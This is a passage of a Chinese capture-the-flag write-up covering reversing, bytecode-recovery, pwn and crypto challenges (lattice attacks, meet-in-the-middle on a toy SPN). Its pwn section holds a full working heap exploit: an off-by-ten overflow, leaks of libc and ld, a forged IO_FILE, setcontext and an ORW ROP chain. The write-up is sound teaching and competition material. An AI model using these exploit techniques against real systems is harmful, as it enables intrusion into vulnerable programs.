ans_s = '111010110011111010100110100011001110100100010011111110110110100111100110001111001101010011011011010110111110101001001101101101010100110110111010'

comp_data = '1110101100111110101001101000110011101001000100111111101101101001111001100011110011010100110110110101101111101010010011011011010101001101101'
# final_stat = '11010'
final_stat = 26

def find_path(data, index, stat, path):
    # print(path)
    if index == len(data):
        print('good end')
        print(path)
        print(stat)
        return
    elif index > len(data):
        return

    s_stat = tob5(stat)
    stat_backup = stat

    # try a
    result = ''
    cv = 14
    if stat > cv:
        if (stat >> 1) <= cv:
            stat = stat >> 1
            result += s_stat[4:5]
            result += '01'
        elif (stat >> 2) <= cv:
            stat = stat >> 2
            result += s_stat[3:5]
            result += '10'
        else:
            stat = stat >> 3
            result += s_stat[2:5]
            result += '11'
    else:
        result += '00'
    
    if index + len(result) <= len(data) and data[index:index+len(result)] == result:
        # good branch
        find_path(data, index + len(result), table1[stat - 1], path + 'a')
    
    stat = stat_backup
    # try b
    result = ''
    cv = 10
    if stat > cv:
        if (stat >> 1) <= cv:
            stat = stat >> 1
            result += s_stat[4:5]
            result += '01'
        elif (stat >> 2) <= cv:
            stat = stat >> 2
            result += s_stat[3:5]
            result += '10'
        else:
            stat = stat >> 3
            result += s_stat[2:5]
            result += '11'
    else:
        result += '00'

    if index + len(result) <= len(data) and data[index:index+len(result)] == result:
        # good branch
        find_path(data, index + len(result), table2[stat - 1], path + 'b')

    stat = stat_backup
    # try c
    result = ''
    cv = 6
    if stat > cv:
        if (stat >> 1) <= cv:
            stat = stat >> 1
            result += s_stat[4:5]
            result += '01'
        elif (stat >> 2) <= cv:
            stat = stat >> 2
            result += s_stat[3:5]
            result += '10'
        else:
            stat = stat >> 3
            result += s_stat[2:5]
            result += '11'
    else:
        result += '00'

    if index + len(result) <= len(data) and data[index:index+len(result)] == result:
        # good branch
        find_path(data, index + len(result), table3[stat - 1], path + 'c')

    

find_path(comp_data, 0, 31, '')
```



跑出来两个结果，选择最终 status 为 26 的那个

包上 flag 格式 L3HCTF{}提交即可

## DAG

经典 Python 字节码，我已给出部分还原内容

下面的内容有错误！请勿直接使用。修正版本在最下面。

```python
import random

arr = [] # unkonwn
def func1(lss, i, j):
    if arr[len(lss) * i + j] != -1:
        return arr[len(lss) * i + j]

    s1, s2 = list(lss[i]), list(lss[j])
    l1, l2 = len(s1), len(s2)

    flag = True
    n = 0
    if l1 - l2 == 1:
        for m in range(11):
            if s1[m] != s2[n]:
                if flag:
                    flag = False

                arr[len(lss) * i + j] = 0
                return arr[len(lss) * i + j]

            n += 1
            if n == l2:
                break
    else:
        arr[len(lss) * i + j] = 0
        return arr[len(lss) * i + j]

    arr[len(lss) * i + j] = 1
    return 1

abcarray = []
def abc(lss, i):
    if abcarray[i] > 0:
        return abcarray[i]

    m = 1
    for index, word in enumerate(lss):

        if func1(lss, i, index) == 1:
            m = max(m, abc(lss, index) + 1)
            
    abcarray[i] = m
    return m

def solution(lss):
    global abcarray
    abcarray = [-1] * len(lss)
    global arr
    arr = [-1] * (len(lss) * len(lss))

    ans = 1
    for i in range(len(lss)):
        ans = max(ans, abc(lss, i))
    return ans

# 斐波那契数列
def func2(n):
    a, b = (1, 1)
    for i in range(n - 1):
        a, b = b, a + b
    return a

def calc(nums):
    num1, num2, num3 = nums[0], nums[1], nums[2]
    nun1 = 2023 + (num1 & 0x0f) - (num1 & 0xf0)
    num2 = func2(num2 + 7)
    random.seed(num3)
    flag = f'{num1}{num2}{num3}{random.gauss(num2, 0.2)}'
    flag = flag.replace('.', 'x')
    print('flag=', flag)
    return flag

def encode(s):
    ret = []
    ls = list(s)
    for i in range(0, len(ls), 2):
        num1 = ord(ls[i])
        num2 = ord(ls[i + 1])
        numa = (num1 & 0xf8) >> 3
        numb = ((num1 & 0x07) << 3) | ((num2 & 0xf0) >> 4)
        numc = num2 & 0x0f
        ret += [numa, numb, numc]
    return ret

if __name__ == '__main__':
    str1 = 'ba'     # missing part here
    str2 = 'aâ'
    str3 = 'bc'
    str4 = 'câ'
    str5 = 'bdcá'
    str6 = 'bacä'
    str7 = 'bbbb'
    str8 = 'aãdb'
    num1 = 2
    num2 = 0
    num3 = 0
    assert(encode(str1) == [12, 22, 1])
    assert(encode(str2) == [12, 14, 2])
    assert(encode(str3) == [12, 22, 3])
    assert(encode(str4) == [12, 30, 2])
    assert(encode(str5) == [12, 22, 4, 12, 30, 1])
    assert(encode(str6) == [12, 22, 1, 12, 30, 4])
    assert(encode(str7) == [12, 22, 2, 12, 22, 2])
    assert(encode(str8) == [12, 14, 3, 12, 38, 2])
    # t = solution(['a', str1, str2, str3, str4, 'bda', str5, str6, str7, str8, 'bcdef', 'aabcc', 'acbac', 'bdcaa', 'bbbbcc', 'babccc', 'abaccc'])
    # print(t)
    assert(solution(['a', str1, str2, str3, str4, 'bda', str5, str6, str7, str8, 'bcdef', 'aabcc', 'acbac', 'bdcaa', 'bbbbcc', 'babccc', 'abaccc']) == num1)
    # missing part here

    s = calc([num1, num2, num3])
```

有很长的序列，考虑使用字符串匹配批处理

反 encode 部分代码

```python
def encode(s):
    ret = []
    ls = list(s)
    for i in range(0, len(ls), 2):
        num1 = ord(ls[i])
        num2 = ord(ls[i + 1])
        numa = (num1 & 0xf8) >> 3
        numb = ((num1 & 0x07) << 3) | ((num2 & 0xf0) >> 4)
        numc = num2 & 0x0f
        ret += [numa, numb, numc]
    return ret

def decode(ls : list) -> str:
    ret = ''
    for i in range(0, len(ls), 3):
        numa = ls[i + 0]
        numb = ls[i + 1]
        numc = ls[i + 2]
        num1 = (numa << 3) | ((numb >> 3) & 0x07)
        num2 = numc | ((numb << 4) & 0xf0)
        num2 &= 0x7f
        ret += chr(num1) + chr(num2)
    return ret

str1 = decode([12, 22, 1])
print(str1)
str1 = decode([12, 14, 2])
print(str1)
str1 = decode([12, 22, 3])
print(str1)
str1 = decode([12, 30, 2])
print(str1)
str1 = decode([12, 22, 4, 12, 30, 1])
print(str1)
str1 = decode([12, 22, 1, 12, 30, 4])
print(str1)
str1 = decode([12, 22, 2, 12, 22, 2])
print(str1)
str1 = decode([12, 14, 3, 12, 38, 2])
print(str1)
```

extract 部分

```python
import re

data_ls = open('bytecode', 'r').readlines()
def extract_to_file(start_line : int, end_line : int, out : str):
    res = []
    for line in data_ls[start_line:end_line]:
        match = re.search('LOAD_CONST.+?\((.+?)\)', line)
        if match:
            # print(match.group(1))
            res.append(match.group(1))

    fo = open(out, 'w')
    fo.write('[%s]' % ','.join(res))

# start_line = 178
# end_line = 1949
# out = 'ex1.txt'
extract_to_file(178, 1949, 'ex1.txt')
extract_to_file(1950, 3960, 'ex2.txt')
```

最终脚本（有修改）

```python
import random

arr = [] # unkonwn
def func1(lss, i, j):
    if arr[len(lss) * i + j] != -1:
        return arr[len(lss) * i + j]

    s1, s2 = list(lss[i]), list(lss[j])
    l1, l2 = len(s1), len(s2)

    flag = True
    n = 0
    if l1 - l2 == 1:
        for m in range(11):
            if s1[m] != s2[n]:
                if flag:
                    flag = False
                    continue
                arr[len(lss) * i + j] = 0
                return arr[len(lss) * i + j]

            n += 1
            if n == l2:
                break
    else:
        arr[len(lss) * i + j] = 0
        return arr[len(lss) * i + j]

    arr[len(lss) * i + j] = 1
    return 1

abcarray = []
def abc(lss, i):
    if abcarray[i] > 0:
        return abcarray[i]

    m = 1
    for index, word in enumerate(lss):

        if func1(lss, i, index) == 1:
            m = max(m, abc(lss, index) + 1)
            
    abcarray[i] = m
    return m

def solution(lss):
    global abcarray
    abcarray = [-1] * len(lss)
    global arr
    arr = [-1] * (len(lss) * len(lss))

    ans = 1
    for i in range(len(lss)):
        ans = max(ans, abc(lss, i))
    return ans

# 斐波那契数列
def func2(n):
    a, b = (1, 1)
    for i in range(n - 1):
        a, b = b, a + b
    return a

def calc(nums):
    num1, num2, num3 = nums[0], nums[1], nums[2]
    num1 = 2023 + (num1 & 0x0f) - (num1 & 0xf0)
    num2 = func2(num2 + 7)
    random.seed(num3)
    flag = f'{num1}{num2}{num3}{random.gauss(num2, 0.2)}'
    flag = flag.replace('.', 'x')
    print('flag=', flag)
    return flag

def encode(s):
    ret = []
    ls = list(s)
    for i in range(0, len(ls), 2):
        num1 = ord(ls[i])
        num2 = ord(ls[i + 1])
        numa = (num1 & 0xf8) >> 3
        numb = ((num1 & 0x07) << 3) | ((num2 & 0xf0) >> 4)
        numc = num2 & 0x0f
        ret += [numa, numb, numc]
    return ret

if __name__ == '__main__':
    str1 = 'ba'     # missing part here
    str2 = 'ab'
    str3 = 'bc'
    str4 = 'cb'
    str5 = 'bdca'
    str6 = 'bacd'
    str7 = 'bbbb'
    str8 = 'acdb'
    num1 = 2
    num2 = 0
    num3 = 0
    assert(encode(str1) == [12, 22, 1])
    assert(encode(str2) == [12, 14, 2])
    assert(encode(str3) == [12, 22, 3])
    assert(encode(str4) == [12, 30, 2])
    assert(encode(str5) == [12, 22, 4, 12, 30, 1])
    assert(encode(str6) == [12, 22, 1, 12, 30, 4])
    assert(encode(str7) == [12, 22, 2, 12, 22, 2])
    assert(encode(str8) == [12, 14, 3, 12, 38, 2])
    num1 = solution(['a', str1, str2, str3, str4, 'bda', str5, str6, str7, str8, 'bcdef', 'aabcc', 'acbac', 'bdcaa', 'bbbbcc', 'babccc', 'abaccc'])
    print(num1)
    assert(solution(['a', str1, str2, str3, str4, 'bda', str5, str6, str7, str8, 'bcdef', 'aabcc', 'acbac', 'bdcaa', 'bbbbcc', 'babccc', 'abaccc']) == num1)
    # missing part here
    # modified!
    l1 = eval(open('ex1.txt', 'r').read())
    print('len1', len(l1))
    num2 = solution(l1)
    print(num2)

    l2 = eval(open('ex2.txt', 'r').read())
    print('len2', len(l2))
    num3 = solution(l2)
    print(num3)

    s = calc([num1, num2, num3])
```

包上 flag 格式提交

# Pwn

## treasure_hunter

题意大概是在 ld 段有个矿场，里面一堆随机数据，堆上的数据结构是一张地图，上面标了一些地点及其是否安全。只能访问标过的安全的地点。除了地图本身，堆上还有一张表，依次记录了地图上各地点的经过 sha256 等等加密的 1byte 的值。必须要地图和表同时符合才能去某地点挖矿/埋矿，而 god 可以让我们改表中的值。

在 page 上写的时候有一个 off-by-ten，如果把 tcache 中的 0x410 的 chunk 申请出来，就能正好覆盖掉 hashmap 的首两字节，顺着就能伪造整个地图。借助伪造的地图，再修改加密的表，就可以实现任意地点挖矿，即任意读任意写。

但 ld 和 libc 的偏移是不固定的，所以必须先在 ld 里找到 libc_base 和 ld_base。

泄露完 heap，libc，ld 之后就可以打 apple 了。ogg 好像都不行于是打了 orw。

算 sha256 的程序

```cpp
#include <openssl/sha.h>
#include <stdio.h>

static unsigned long hash(unsigned long num) {
    SHA256_CTX ctx;
    unsigned char md[32];
    SHA256_Init(&ctx);
    SHA256_Update(&ctx, &num, 8);
    SHA256_Final(&md, &ctx);
    return *(unsigned long *)md;
}

static unsigned long h2(unsigned long hash) {
    return hash >> 57;
}

int main(int argc, char **argv) {
    for (int i = 1; i < argc; i++) {
        unsigned long d;
        if (sscanf(argv[i], "%lu", &d))
            printf("%#lx ", h2(hash(d)));
    }
    puts("");
    return 0;
}
```

Exp

```cpp
from pwn import *
# p = process('./treasure_hunter')
p = remote("1.1.1.1",11111)
p.recvuntil(b'Drawing...\n')
goldmap = {}
for _ in range(28):
    lines = p.recvline().decode().split(':')
    goldmap[int(lines[0][6:])] = 'un' not in lines[1]

print(goldmap)
safelist = [i for i in goldmap.keys() if goldmap[i]]
heap0 = 0
# gdb.attach(p)
def idxHash(idx:int) -> int:
    sh = process(argv=['./hash', str(idx)])
    val = int(sh.recv(), 16)
    sh.close()
    print(hex(val))
    return val

def mainloop(place:int, act:bytes, gold:int, leng:int, content:bytes, ic:int, ctrl:bytes, loop:bool) -> int:
    global heap0
    leak_data=0
    p.sendlineafter('captain?\n', str(place))
    # if place>0x5000:
    #     s=p.recv()
    #     print(s)
    s=p.recv(6)
    print(s)
    if p.recvuntil("discovered ",timeout=0.8):
        leak_data = int(p.recvuntil(" ").strip())
        p.sendlineafter("get)\n",act)
    else:
        leak_data = 0
        p.sendline(act)
    if act == b'g':  
        p.sendlineafter("get?\n",str(leak_data))
    elif act == b'b':
        p.sendlineafter("bury?\n",str(gold))
    p.sendlineafter("length: ",str(leng))
    p.sendafter("Content: ",content)
    p.sendlineafter("yes)\n","y")
    if not heap0:
        p.recvuntil(b'flag: 0x')
        heap0 = int(p.recv(12), 16)
        print("leak heap " + hex(heap0))
    p.sendlineafter("write: \x1b[0m",str(ic))           #       这里是在0处写入3e,后面如果要泄露多个数据的话,可能就是1,2,3等等
    if(ic<999):
        p.sendlineafter("Write: \n",ctrl)
    if loop:
        p.send("\n")
    else:
        p.sendline("y")
    print("leak data = " + hex(leak_data))
    return leak_data

mainloop(safelist[1],b'g',0,1,b'\n',999, b' ',True)
payload = p64(0) + p64(0)                       #eb0
payload+= p64(heap0-0x3e0) + p64(heap0+0x5c0)   #ec0
payload+= p64(heap0+0x5c0) + p64(0)             #ed0
payload+= p64(0x3018) + p64(1)                  #ee0    这一行开始就是伪造的那张safe与否的表,第一个是要访问的地方相对于field的偏移
payload+= p64(0x3019) + p64(1)
payload+= p64(0x301a) + p64(1)
payload+= p64(0x301b) + p64(1)
payload+= p64(0x301c) + p64(1)
payload+= p64(0x301d) + p64(1)

payload+= p64(0x3050) + p64(1)
payload+= p64(0x3051) + p64(1)
payload+= p64(0x3052) + p64(1)
payload+= p64(0x3053) + p64(1)
payload+= p64(0x3054) + p64(1)
payload+= p64(0x3055) + p64(1)

for i in range(0x31):
    payload+= p64(0)+p64(0)                     #       填充空格

payload+= p64(0) + p64(0x21)
payload+= p16((heap0-0x400)&0xffff)
mainloop(safelist[2],b'g',0,0x408,payload,0,p8(idxHash(0x3018)),True)
libc_base = mainloop(0x3018,b'g',0,24,b'AAAAAAAA',1,p8(idxHash(0x3019)),True)
libc_base+= mainloop(0x3019,b'g',0,24,b'AAAAAAAA',2,p8(idxHash(0x301a)),True)<<8
libc_base+= mainloop(0x301a,b'g',0,24,b'AAAAAAAA',3,p8(idxHash(0x301b)),True)<<16
libc_base+= mainloop(0x301b,b'g',0,24,b'AAAAAAAA',4,p8(idxHash(0x301c)),True)<<24
libc_base+= mainloop(0x301c,b'g',0,24,b'AAAAAAAA',5,p8(idxHash(0x301d)),True)<<32
libc_base+= mainloop(0x301d,b'g',0,24,b'AAAAAAAA',6,p8(idxHash(0x3050)),True)<<40
libc_base-= 0x174A10
print(hex(libc_base))

field_base = mainloop(0x3050,b'b',0,24,b'AAAAAAAA',7,p8(idxHash(0x3051)),True)
field_base+= mainloop(0x3051,b'b',0,24,b'AAAAAAAA',8,p8(idxHash(0x3052)),True)<<8
field_base+= mainloop(0x3052,b'b',0,24,b'AAAAAAAA',9,p8(idxHash(0x3053)),True)<<16
field_base+= mainloop(0x3053,b'b',0,24,b'AAAAAAAA',10,p8(idxHash(0x3054)),True)<<24
field_base+= mainloop(0x3054,b'b',0,24,b'AAAAAAAA',11,p8(idxHash(0x3055)),True)<<32
field_base+= mainloop(0x3055,b'b',0,24,b'AAAAAAAA',12,p8(idxHash(0x3055)),True)<<40
field_base-= 0x45a0
print(hex(field_base))

libc=ELF("./libc.so.6")
IO_list_all = libc_base + libc.symbols["_IO_list_all"]
IO_wfile_jumps = libc_base + libc.symbols["_IO_wfile_jumps"]
setcontext = libc_base + libc.symbols["setcontext"]
rdi = libc_base + 0x000000000002a3e5
rsi = libc_base + 0x000000000002be51
rdx_r12 = libc_base + 0x000000000011f2e7
ret = libc_base + 0x0000000000029139
open = libc_base + libc.symbols["open"]
read = libc_base + libc.symbols["read"]
write = libc_base + libc.symbols["write"]
ogg = libc_base + libc.symbols["system"]
# ogg = libc_base + 0x50a47
# ogg = libc_base + 0x50a53
# ogg = libc_base + 0x50a68
# ogg = libc_base + 0x50a70
# ogg = libc_base + 0x80bc3
# ogg = libc_base + 0x80bd0
# ogg = libc_base + 0x80bd5
# ogg = libc_base + 0x80bda
# ogg = libc_base + 0xebc81
# ogg = libc_base + 0xebc85
# ogg = libc_base + 0xebc88
# ogg = libc_base + 0x10d9c2
# ogg = libc_base + 0x10d9ca
# ogg = libc_base + 0x10d9cf
# ogg = libc_base + 0x10d9d9
fake_IO_file = heap0-0x370
fake_IO_wdata = heap0-0x280
ROP_addr = heap0-0x190
IOFile = p64(0) + p64(0)                   #IOFile Begin,wideData Begin,FakeIOwFileJumps Begin
IOFile +=b"./flag\0\0" + p64(0)                        #0x10 *(wideData + 0x18)=0
IOFile +=p64(0) + p64(1)                        #0x20
IOFile +=p64(0) + p64(0)                        #0x30 *(wideData + 0x30)=0
IOFile +=p64(0) + p64(0)                        #0x40
IOFile +=p64(0) + p64(0)                        #0x50
IOFile +=p64(0) + p64(0)                      #0x60 *(FakeIOwFileJumps + 0x68)=one_gadget
IOFile +=p64(0) + p64(0)                        #0x70
IOFile +=p64(0) + p64(0)                        #0x80
IOFile +=p64(0) + p64(0)                        #0x90
IOFile +=p64(fake_IO_wdata) + p64(0)             #0xa0 *(IOFile + 0xa0)=wideData
IOFile +=p64(0) + p64(0)                        #0xb0
IOFile +=p64(0) + p64(0)                        #0xc0
IOFile +=p64(0) + p64(IO_wfile_jumps)           #0xd0 *(IOFile + 0xd8)=IOwFileJumps
IOFile +=p64(fake_IO_file) + p64(0)             #0xe0 *(wideData + 0xe0)=FakeIOwFileJumps

wideData = p64(0) + p64(0)                      #wideData Begin,FakeIOwFileJumps Begin
wideData += p64(0) + p64(0)                      #0x10 *(wideData + 0x18)=0
wideData += p64(0) + p64(0)                     #0x20
wideData += p64(0) + p64(0)                     #0x30 *(wideData + 0x30)=0
wideData += p64(0) + p64(0)                     #0x40
wideData += p64(0) + p64(0)                     #0x50
wideData += p64(0) + p64(setcontext+61)         #0x60 *(FakeIOwFileJumps + 0x68)=setcontext+61
wideData += p64(0) + p64(0)                     #0x70
wideData += p64(0) + p64(0)                     #0x80
wideData += p64(0) + p64(0)                     #0x90
wideData += p64(ROP_addr) + p64(ret)          #0xa0 
wideData += p64(0) + p64(0)                     #0xb0
wideData += p64(0) + p64(0)                     #0xc0
wideData += p64(0) + p64(0)                     #0xd0
wideData += p64(fake_IO_wdata) + p64(0)                 #0xe0 *(wideData + 0xe0)=FakeIOwFileJumps
ROP = p64(rdi) + p64(fake_IO_file+0x10) + p64(rsi) + p64(0) + p64(rdx_r12) + p64(0) + p64(0) + p64(open)
ROP += p64(rdi) + p64(3) + p64(rsi) + p64(fake_IO_file+0x10) + p64(rdx_r12) + p64(0x40) + p64(0) + p64(read)
ROP += p64(rdi) + p64(1) + p64(rsi) + p64(fake_IO_file+0x10) + p64(rdx_r12) + p64(0x40) + p64(0) + p64(write)
offset = IO_list_all - field_base
offset = (1<<64)+offset
print(hex(offset))
payload = p64(0) + p64(0)                       #eb0
payload+= p64(heap0-0x3e0) + p64(heap0+0x5c0)   #ec0
payload+= p64(heap0+0x5c0) + p64(0)             #ed0
payload+= p64(offset) + p64(1)                  #ee0    这一行开始就是伪造的那张safe与否的表,第一个是要访问的地方相对于field的偏移
payload+= p64(offset+1) + p64(1)
payload+= p64(offset+2) + p64(1)
payload+= p64(offset+3) + p64(1)
payload+= p64(offset+4) + p64(1)
payload+= p64(offset+5) + p64(1)
payload+= p64(0) + p64(1)
payload+= IOFile
payload+= wideData
payload+= ROP
for i in range(0xc):
    payload+= p64(0)+p64(1)                     #       填充空格

payload+= p64(0) + p64(0x21)
payload+= p16((heap0-0x400)&0xffff)
mainloop(0x3055,b'b',0,0x408,payload,0,p8(idxHash(offset)),True)
print("fake_IO_file = " + hex(fake_IO_file))

mainloop(offset,b'g',0,24,"AAAAAAAA",999,b' ',True)
mainloop(offset,b'b',fake_IO_file&0xff,24,"AAAAAAAA",1,p8(idxHash(offset+1)),True)
# gdb.attach(p)
mainloop(offset+1,b'g',0,24,"AAAAAAAA",999,' ',True)
mainloop(offset+1,b'b',(fake_IO_file>>8)&0xff,24,"AAAAAAAA",2,p8(idxHash(offset+2)),True)

mainloop(offset+2,b'g',0,24,"AAAAAAAA",999,' ',True)
mainloop(offset+2,b'b',(fake_IO_file>>16)&0xff,24,"AAAAAAAA",3,p8(idxHash(offset+3)),True)

mainloop(offset+3,b'g',0,24,"AAAAAAAA",999,' ',True)
mainloop(offset+3,b'b',(fake_IO_file>>24)&0xff,24,"AAAAAAAA",4,p8(idxHash(offset+4)),True)

mainloop(offset+4,b'g',0,24,"AAAAAAAA",999,' ',True)
mainloop(offset+4,b'b',(fake_IO_file>>32)&0xff,24,"AAAAAAAA",5,p8(idxHash(offset+5)),True)

mainloop(offset+5,b'g',0,24,"AAAAAAAA",999,' ',True)
mainloop(offset+5,b'b',(fake_IO_file>>40)&0xff,24,"AAAAAAAA",6,p8(idxHash(0)),False)
# gdb.attach(p)
p.sendline("y")
# gdb.attach(p)
p.interactive()
```

# Crypto

## can_you_guess_me

agcd 格

```python
q = 313199526393254794805899275326380083313
a = [258948702106389340127909287396807150259, 130878573261697415793888397911168583971, 287085364108707601156242002650192970665, 172240654236516299340495055728541554805, 206056586779420225992168537876290239524]
print(len(a))
m = matrix([[a[1],a[2],a[3],a[4],2^32,0,0,0,0],
            [a[0],0,0,0,0,2^32,0,0,0],
            [0,a[0],0,0,0,0,2^32,0,0],
            [0,0,a[0],0,0,0,0,2^32,0],
            [0,0,0,a[0],0,0,0,0,2^32],
            [q,0,0,0,0,0,0,0,0],
            [0,q,0,0,0,0,0,0,0],
            [0,0,q,0,0,0,0,0,0],
            [0,0,0,q,0,0,0,0,0]])
t = []
print(m.LLL()[0])
for i in (m.LLL()[0][4:]):
    t.append(abs(i/2^32))
```

但打出来的结果太小了，大概在 2^40-2^44，卡界

正交格行不通，感觉有点怪怪的。

其实也没有什么别的东西，就是用 agcd 式子再去加行打，这样可以增加格子的规模

```python
q = 313199526393254794805899275326380083313
a = [258948702106389340127909287396807150259, 130878573261697415793888397911168583971, 287085364108707601156242002650192970665, 172240654236516299340495055728541554805, 206056586779420225992168537876290239524]

m = matrix([[a[1],a[2],a[3],a[4],   0,0,0,                 2^32,0,0,0,0],
            [a[0],0,0,0,            -a[2],-a[3],-a[4],     0,2^32,0,0,0],
            [0,a[0],0,0,            a[1],0,0,              0,0,2^32,0,0],
            [0,0,a[0],0,            0,a[1],0,              0,0,0,2^32,0],
            [0,0,0,a[0],            0,0,a[1],              0,0,0,0,2^32],
            [q,0,0,0,               0,0,0,                 0,0,0,0,0],
            [0,q,0,0,               0,0,0,                 0,0,0,0,0],
            [0,0,q,0,               0,0,0,                 0,0,0,0,0],
            [0,0,0,q,               0,0,0,                 0,0,0,0,0],
            [0,0,0,0,               q,0,0,                 0,0,0,0,0],
            [0,0,0,0,               0,q,0,                 0,0,0,0,0],
            [0,0,0,0,               0,0,q,                 0,0,0,0,0]])

t = [abs(i/2^32) for i in (m.BKZ()[0][-5:])]
print(t)

m = matrix(7,6)
for i in range(5):
    m[0,i] = t[i]
    m[1,i] = a[i]
    m[i+2,i] = q
m[1,-1] = 1
print(m.LLL())

e1 = 1207385170
print(hex(((a[0]+e1)/t[0])%q))
```

## BabySPN

华科大密码学课设好像就是这个

```python
def bin_to_list(r, bit_len):
    list = [r >> d & 1 for d in range(bit_len)][::-1]
    return list
def list_to_int(list):
    return int("".join(str(i) for i in list), 2)
```

数字转列表，r 为列表长度；列表转数字

```python
def round_func(X,r,K):
    kstart=4*r - 4
    XX = [0] * 16
    for i in range(16):
        XX[i] = X[i] ^ K[kstart+i]
    for i in range(4):
        value = list_to_int(XX[4*i:4*i+4])
        s_value = Sbox[value]
        s_list = bin_to_list(s_value, 4)
        XX[4*i],XX[4*i+1],XX[4*i+2],XX[4*i+3] = s_list[0],s_list[1],s_list[2],s_list[3]

    Y=[0] * 16
    for i in range(16):
        Y[Pbox[i]-1]=XX[i]
    return Y
```

```python
def enc(X,K):
    Y = round_func(X,1,K)
    Y = round_func(Y,2,K)
    Y = round_func(Y,3,K)
    Y = round_func(Y,4,K)

    kstart=4*5 - 4
    for i in range(16):
        Y[i] ^= K[kstart+i]
    return Y
```

K 为密钥，r 为起始点，每轮加密分为以下步骤：① 密钥异或；② 过 S 盒；③P 置换。

密钥轮转算法就是没有密钥轮转，密钥 32 位拆开五次用。

有非预期 附件里带的 K 就是解 绷不住了

## BabySPN revenge

K 为密钥，每轮加密分为以下步骤：① 密钥异或；②S 盒；③P 置换。

密钥轮转算法就是没有密钥轮转，密钥 32 位拆开五次用。

mitm，和我之前出的那道 CBCTF 差不多，甚至要更简单些

```python
from tqdm import tqdm
from copy import deepcopy

def bin_to_list(r, bit_len):
    list = [r >> d & 1 for d in range(bit_len)][::-1]
    return list

def list_to_int(list):
    return int("".join(str(i) for i in list), 2)

Pbox=[0, 4, 8, 12, 1, 5, 9, 13, 2, 6, 10, 14, 3, 7, 11, 15]
Sbox=[14, 13, 11, 0, 2, 1, 4, 15, 7, 10, 8, 5, 9, 12, 3, 6]
iSbox = [3, 5, 4, 14, 6, 11, 15, 8, 10, 12, 9, 2, 13, 1, 0, 7]

def round_func(X,r,K):
    kstart=4*r - 4
    XX = [0] * 16
    for i in range(16):
        XX[i] = X[i] ^ K[kstart+i]
    #if r == 3:
        #print(XX,7)
    for i in range(4):
        value = list_to_int(XX[4*i:4*i+4])
        s_value = Sbox[value]
        s_list = bin_to_list(s_value, 4)
        XX[4*i],XX[4*i+1],XX[4*i+2],XX[4*i+3] = s_list[0],s_list[1],s_list[2],s_list[3]

    Y=[0] * 16
    for i in range(16):
        Y[Pbox[i]]=XX[i]
    return Y

def i_round_func(Y,r,K):
    XX = [0] * 16
    for i in range(16):
        XX[Pbox[i]]=Y[i]

    for i in range(4):
        value = list_to_int(XX[4*i:4*i+4])
        s_value = iSbox[value]
        s_list = bin_to_list(s_value, 4)
        XX[4*i],XX[4*i+1],XX[4*i+2],XX[4*i+3] = s_list[0],s_list[1],s_list[2],s_list[3]

    kstart=4*r - 4
    #if r == 3:
        #print(XX,8)
    for i in range(16):
        XX[i] = XX[i] ^ K[kstart+i]
    return XX

def enc(X,K):
    Y = round_func(X,1,K)
    Y = round_func(Y,2,K)
    Y = round_func(Y,3,K)
    Y = round_func(Y,4,K)

    kstart=4*5 - 4
    for i in range(16):
        Y[i] ^= K[kstart+i]
    return Y

def dec(Y,K):
    kstart=4*5 - 4
    for i in range(16):
        Y[i] ^= K[kstart+i]
    
    Y = i_round_func(Y,4,K)
    Y = i_round_func(Y,3,K)
    Y = i_round_func(Y,2,K)
    X = i_round_func(Y,1,K)
    return X

def enc1(X,K):
    Y = round_func(X,1,K)
    Y = round_func(Y,2,K)

    kstart=4*3 - 4
    for i in range(12):
        Y[i] ^= K[kstart+i]
    return Y[:12]

def dec1(Y,K):
    kstart=4*2 - 4
    for i in range(16):
        Y[i] ^= K[kstart+i]
    
    Y = i_round_func(Y,1,K)
    XX = [0] * 16
    for i in range(16):
        XX[Pbox[i]]=Y[i]

    for i in range(4):
        value = list_to_int(XX[4*i:4*i+4])
        s_value = iSbox[value]
        s_list = bin_to_list(s_value, 4)
        XX[4*i],XX[4*i+1],XX[4*i+2],XX[4*i+3] = s_list[0],s_list[1],s_list[2],s_list[3]

    return XX[:12]

x1 = [1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
x2 = [0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
x3 = [0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0]
x4 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0]
y1 = [0, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 1]
y2 = [0, 1, 1, 1, 0, 0, 0, 1, 1, 1, 1, 1, 0, 1, 1, 0]
y3 = [0, 1, 1, 1, 0, 0, 0, 1, 1, 1, 0, 0, 0, 0, 0, 1]
y4 = [0, 1, 1, 1, 1, 0, 1, 0, 1, 0, 0, 0, 0, 1, 1, 1]

K = bin_to_list(53209084,32)
assert list_to_int(enc1(x1,K[:20])+enc1(x2,K[:20])+enc1(x3,K[:20])+enc1(x4,K[:20])) == list_to_int(dec1(enc(x1,K),K[12:])+dec1(enc(x2,K),K[12:])+dec1(enc(x3,K),K[12:])+dec1(enc(x4,K),K[12:]))

l = {}
for i in tqdm(range(2**20)):
    kl20 = bin_to_list(i,20)
    xx1,xx2,xx3,xx4 = deepcopy(x1),deepcopy(x2),deepcopy(x3),deepcopy(x4)
    a = list_to_int(enc1(xx1,kl20)+enc1(xx2,kl20)+enc1(xx3,kl20)+enc1(xx4,kl20))
    if a in l.keys():
        l[a].append(kl20)
    else:
        l[a] = [kl20]

for i in tqdm(range(2**20)):
    kr20 = bin_to_list(i,20)
    yy1,yy2,yy3,yy4 = deepcopy(y1),deepcopy(y2),deepcopy(y3),deepcopy(y4)
    a = list_to_int(dec1(yy1,kr20)+dec1(yy2,kr20)+dec1(yy3,kr20)+dec1(yy4,kr20))
    if a in l.keys():
        print(a)
        for _ in l[a]:
            print(kr20,_)
```

```python
K = [1, 1, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 1, 1, 0, 1,0, 0, 1, 0, 0, 1, 1, 1, 0, 1, 1, 0]
print(len(k))

hash_value = sha256(long_to_bytes(list_to_int(K))).hexdigest()
print(hash_value)
```

## Badrlwe

很清晰的一个 RLWE 问题，s 中的元素取值在 128 内，e 中元素取值约在[-10,10]，首先思路一定是在格身上，然后根据多项式环格稍改一下

```python
from Crypto.Util.number import *
from random import *
import random
import numpy as np
from secret import flag, sk

assert len(flag[7:-1]) <= 64
data = [ord(i) for i in list(flag[7:-1])]

for i in range(len(sk)):
